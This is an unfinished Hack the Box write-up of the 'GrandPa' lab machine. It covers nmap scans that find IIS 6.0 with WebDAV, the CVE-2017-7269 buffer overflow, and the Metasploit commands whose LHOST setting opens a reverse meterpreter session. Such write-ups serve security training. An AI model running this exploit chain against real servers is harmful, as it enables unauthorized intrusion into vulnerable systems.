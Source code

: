 # Hack the Box - GrandPa (INCOMPLETE)

```CSS
Machine IP: 10.10.10.14 - Windows
Buffer Overflow (CVE-2017-7269)
```

### Port Scanning and Service Discovery
```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 1000 10.10.10.14 -oA nmap.surface

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 10:40 IST
Nmap scan report for 10.10.10.14
Host is up (0.090s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 80 10.10.10.14 -oA nmap.deep

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 10:43 IST
Nmap scan report for 10.10.10.14
Host is up (0.088s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Fri, 31 Mar 2023 05:13:46 GMT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.89 seconds
```

### Checking for known Vulnerabilities:
![image](https://user-images.githubusercontent.com/83878909/229031974-84d9cf71-7f1b-49cb-b635-a053b238c4fc.png)

![image](https://user-images.githubusercontent.com/83878909/229034116-9125f8ce-83b2-4949-9b83-fd6426814ee8.png)
- [Read More...](https://www.fortinet.com/blog/threat-research/buffer-overflow-attack-targeting-microsoft-iis-6-0-returns)

![image](https://user-images.githubusercontent.com/83878909/229046417-4fd0508a-18d5-44e3-9537-e4dbb5a207d2.png)

### Search Exploit
- Name: `ScStoragePathFromUrl`
- Search Metasploit
![image](https://user-images.githubusercontent.com/83878909/229046789-aeee25e3-5734-4b54-89a3-67b7a29e8a55.png)

### Exploit
#### User Access
```CSS
msf6> use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf6> set RHOSTS 10.10.10.14
msf6> set LHOST 10.10.14.34
msf6> exploit
```
![image](https://user-images.githubusercontent.com/83878909/229052744-ef9e0f9b-9225-4d1b-92f4-c82e487d5e79.png)
![image](https://user-images.githubusercontent.com/83878909/229055181-d755ef79-b391-491d-aaab-4a7fe0258e39.png)

#### Root Access
- `Ctrl+C`
```CSS
meterpreter> background


```

